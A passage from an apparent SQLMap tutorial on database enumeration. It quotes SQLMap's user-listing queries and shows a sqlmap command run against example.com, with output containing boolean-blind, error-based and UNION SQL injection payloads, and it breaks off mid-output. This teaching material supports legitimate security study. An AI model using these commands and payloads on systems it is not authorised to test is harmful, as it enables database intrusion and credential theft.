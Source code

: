 ```xml
            <blind query="SELECT DISTINCT(grantee) FROM INFORMATION_SCHEMA.USER_PRIVILEGES LIMIT %d,1" query2="SELECT DISTINCT(user) FROM mysql.user LIMIT %d,1" query3="SELECT DISTINCT(username) FROM DATA_DICTIONARY.CUMULATIVE_USER_STATS LIMIT %d,1" count="SELECT COUNT(DISTINCT(grantee)) FROM INFORMATION_SCHEMA.USER_PRIVILEGES" count2="SELECT COUNT(DISTINCT(user)) FROM mysql.user" count3="SELECT COUNT(DISTINCT(username)) FROM DATA_DICTIONARY.CUMULATIVE_USER_STATS"/>
        </users>
    ...SNIP...
```

For example, if a user wants to retrieve the "banner" (switch `--banner`) for the target based on MySQL DBMS, the VERSION() query will be used for such purpose.
In case of retrieval of the current user name (switch `--current-user`), the CURRENT_USER() query will be used.

Another example is retrieving all the usernames (i.e., tag `<users>`). There are two queries used, depending on the situation. The query marked as `inband` is used in all non-blind situations (i.e., UNION-query and error-based SQLi), where the query results can be expected inside the response itself. The query marked as `blind`, on the other hand, is used for all blind situations, where data has to be retrieved row-by-row, column-by-column, and bit-by-bit.

### Basic DB Data Enumeration

Usually, after a successful detection of an SQLi vulnerability, we can begin the enumeration of basic details from the database, such as the hostname of the vulnerable target (`--hostname`), current user's name (`--current-user`), current database name (`--current-db`), or password hashes (`--passwords`). SQLMap will skip SQLi detection if it has been identified earlier and directly start the DBMS enumeration process.

Enumeration usually starts with the retrieval of the basic information:
* Database version banner (switch `--banner`)
* Current user name (switch `--current-user`)
* Current database name (switch `--current-db`)
* Checking if the current user has DBA (administrator) rights.

The following SQLMap command does all of the above:

`sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba`

    [*] starting @ 13:30:57 /2020-09-17/

    [13:30:57] [INFO] resuming back-end DBMS 'mysql' 
    [13:30:57] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: id (GET)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: id=1 AND 5134=5134

        Type: error-based
        Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
        Payload: id=1 AND (SELECT 5907 FROM(SELECT COUNT(*),CONCAT(0x7170766b71,(SELECT (ELT(5907=5907,1))),0x7178707671,FLOOR(RAND(0)*2))x     FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

        Type: UNION query
        Title: Generic UNION query (NULL) - 3 columns
        Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7170766b71,   0x7a76726a6442576667644e6b476e577665615168564b7a696a6d4646475159716f784f5647535654,0x7178707671)-- -
    ---
    [13:30:57] [INFO] the back-end DBMS is MySQL
    [13:30:57] [INFO] fetching banner
    web application technology: PHP 5.2.6, Apache 2.2.9
    back-end DBMS: MySQL >= 5.0
    banner: '5.1.41-3~bpo50+1'
    [13:30:58] [INFO] fetching current user
    current user: 'root@%'
    [13:30:58] [INFO] fetching current database